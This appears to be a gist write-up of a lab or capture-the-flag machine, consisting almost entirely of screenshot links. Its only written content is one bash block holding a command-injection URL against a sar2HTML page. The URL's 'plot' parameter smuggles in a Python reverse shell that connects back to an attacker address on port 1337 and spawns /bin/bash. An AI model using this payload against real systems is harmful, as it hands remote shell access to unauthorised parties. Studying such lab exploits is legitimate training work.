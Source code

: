 ![image](https://gist.github.com/assets/58165365/c840d2ed-f76f-4da6-9108-30c61ab087fa)

![image](https://gist.github.com/assets/58165365/92597d61-4506-4fda-bfe6-52c1923535df)

![image](https://gist.github.com/assets/58165365/eb3630b5-8cc4-4b0d-9db4-41fb5d066d2f)

![image](https://gist.github.com/assets/58165365/ba1668b7-4dd7-43d9-bf0a-f0f83046e4c0)

![image](https://gist.github.com/assets/58165365/24f99374-b35d-491d-899b-67eb034c0e9e)

![image](https://gist.github.com/assets/58165365/f1e1c986-3a5b-445c-b79a-784ffb1743f2)

![image](https://gist.github.com/assets/58165365/fb6837b5-d59e-49ad-bb96-57fae8f15615)


```bash
http://192.168.236.35/sar2HTML/index.php?plot=;python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.163",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

![image](https://gist.github.com/assets/58165365/eebf49b9-f15f-4260-8a74-92c23cd728a3)

![image](https://gist.github.com/assets/58165365/55bcb4bf-59bd-4227-84cd-23afdb07127e)

![image](https://gist.github.com/assets/58165365/73855323-c683-43ee-8938-32c2bfeee527)

![image](https://gist.github.com/assets/58165365/f8334b47-62ba-44a9-a937-53775822133e)

![image](https://gist.github.com/assets/58165365/74d35aa7-bc6c-432a-beb5-7b38ffbde940)

![image](https://gist.github.com/assets/58165365/5596228b-7503-4fab-98e0-4f4eb761fb09)


![image](https://gist.github.com/assets/58165365/e02a9ae0-1b75-4ea3-8c51-f6c0dbb7f6d7)

![image](https://gist.github.com/assets/58165365/d8f67152-9ede-4892-baad-c756b20680ff)

![image](https://gist.github.com/assets/58165365/05bcf5f8-6347-4fff-ab7c-f180a3ec3ad7)

![image](https://gist.github.com/assets/58165365/714ee21a-da17-4095-86f7-f7a58ba3c55b)
